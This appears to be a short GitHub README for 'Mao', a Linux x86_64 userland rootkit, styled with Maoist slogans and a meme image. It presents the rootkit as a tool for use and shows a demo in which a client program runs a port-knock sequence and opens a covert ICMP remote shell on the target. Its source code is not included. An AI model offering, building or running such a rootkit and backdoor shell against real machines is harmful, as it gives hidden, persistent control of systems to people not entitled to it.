 # Mao
A protracted people's rootkit.<br><br>
<img src="https://i.redd.it/4pwkibrp0uq91.jpg" />

Another x86_64 userland rootkit for Linux. 

```
./enver 127.0.0.1
[*] Initiating knock sequence. Please wait.
[*] ☭ Political power grows out of the barrel of a gun. ☭
[+] ICMP shell connected. Type commands (type 'exit' to quit):
icmp-shell>
```
